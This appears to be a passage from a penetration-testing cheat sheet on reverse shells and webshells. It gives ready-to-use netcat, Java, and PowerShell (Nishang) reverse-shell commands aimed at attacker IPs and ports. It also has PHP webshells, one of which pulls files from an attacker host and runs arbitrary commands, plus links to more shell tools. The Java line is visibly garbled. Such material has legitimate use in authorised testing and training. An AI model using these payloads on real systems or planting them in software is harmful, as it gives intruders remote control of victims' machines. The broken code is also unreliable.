 # Netcat without -e : -u for UDP
<strong>echo 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&#x26;1 | nc [-u] 10.10.10.10 443 > /tmp/f' | tee -a [script]
</strong>
# Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5/dev/tcp/10.10.10.10/443;cat &#x26;5 >&#x26;5; done"] as String[])
p.waitFor()
</code></pre>

**Reverse shell scripts**

PHP reverse shell available [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or locally `/usr/share/webshells/php/php-reverse-shell`

Python PTY shells available [here](https://github.com/infodox/python-pty-shells)

#### Windows <a href="#windows" id="windows"></a>

PowerShell reverse shell available [here](https://github.com/samratashok/nishang) PHP reverse shell available [here](https://github.com/Dhayalanb/windows-php-reverse-shell) Netcat for Windows available [here](https://eternallybored.org/misc/netcat/)

```bash
# PowerShell
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
vi shell.ps1
# go to end of file, paste the following
Invoke-PowerShellTcp -Reverse -IPAddress [attacker_ip] -Port [attacker_port]
# close, reverse shell ready to use

# Netcat - use x64 or x32 as per target. powershell.exe or cmd.exe
nc.exe x.x.x.x <port> -e powershell.exe
```

#### PHP Webshells <a href="#php-webshells" id="php-webshells"></a>

```php
# Basic. system() or shell_exec() or exec()
<?php system($_GET['cmd']);?>

# More functional
<?php
$ip = 'http://10.10.14.4/' # [:port] . Change this
# Upload
if (isset($_GET['fupload'])) {
    file_put_contents($_GET['fupload'], file_get_contents($ip . $_GET['fupload']));
};
# Execute code
# shell_exec() or system() or exec()
if (isset($_GET['cmd'])) {
    echo "<pre>" . exec($_GET['cmd']) . "</pre>";
};
?>
```
